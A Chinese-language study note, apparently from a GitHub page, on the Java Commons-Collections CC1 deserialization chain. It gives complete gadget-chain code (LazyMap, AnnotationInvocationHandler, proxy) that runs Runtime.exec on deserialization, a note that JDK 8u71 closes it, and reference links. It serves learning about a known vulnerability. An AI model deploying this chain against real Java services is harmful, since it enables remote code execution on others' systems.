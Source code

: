 ## payload

这个网上都有, 参考其中一个:

```java
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
new InvokerTransformer("exec",new Class[]{String.class},new Object []{"calc"})
};
ChainedTransformer chainedtransformer = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap,chainedtransformer);
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class,outerMap);
Map proxyMap = (Map)Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},handler);
Object o = (Object) constructor.newInstance(Override.class,proxyMap);
serialize(o);
unserialize();
```

## 修复

> `LazyMap`的漏洞触发在get和invoke中 而`TransformedMap`的漏洞触发在setValue中 同样在 **jdk 8u71**之后，由于`AnnotationInvocationHandler`不再直接使用反序列化得到的Map对象，而是新建了一个LinkedHashMap对象，后续对Map的操作都是基于这个新的LinkedHashMap对象。 因此CC1链只局限在**jdk 8u71**之前的版本。
> 

## Reference

- [https://blog.csdn.net/m0_64685672/article/details/122526803?spm=1001.2014.3001.5502](https://blog.csdn.net/m0_64685672/article/details/122526803?spm=1001.2014.3001.5502)
- [https://blog.csdn.net/qq_35733751/article/details/118462281](https://blog.csdn.net/qq_35733751/article/details/118462281)
- [https://blog.csdn.net/weixin_45808483/article/details/122743960](https://blog.csdn.net/weixin_45808483/article/details/122743960)
- [https://blog.csdn.net/u012326462/article/details/81293186](https://blog.csdn.net/u012326462/article/details/81293186) (动态代理类)
- [https://zoceanyq.github.io/2022/11/08/cc1链分析/](https://zoceanyq.github.io/2022/11/08/cc1%E9%93%BE%E5%88%86%E6%9E%90/)
- [https://www.bilibili.com/video/BV1no4y1U7E1/?vd_source=df9a56be52d51a090e98fcf8c8310ec2](https://www.bilibili.com/video/BV1no4y1U7E1/?vd_source=df9a56be52d51a090e98fcf8c8310ec2) (视频先mark在这里, 不过我先看的文章 视频打算最后有不懂的地方过)
- [https://mp.weixin.qq.com/s?__biz=MzU2NzkxMDUyNg==&mid=2247486261&idx=1&sn=5bce20d898eba670b4b129a8a3092449](https://mp.weixin.qq.com/s?__biz=MzU2NzkxMDUyNg==&mid=2247486261&idx=1&sn=5bce20d898eba670b4b129a8a3092449) (不建议作为一个了解cc1的整体文章阅读 但新人一些细节上没看懂的可以看这篇)
- [https://github.com/p4d0rn/Java_Zoo/blob/main/Deserial/CC1_LazyMap.md](https://github.com/p4d0rn/Java_Zoo/blob/main/Deserial/CC1_LazyMap.md)

补充知识学习:

- 动态代理(略)
- entrySet: [https://blog.csdn.net/q5706503/article/details/85122343](https://blog.csdn.net/q5706503/article/details/85122343) (一个键值对就算一个entry )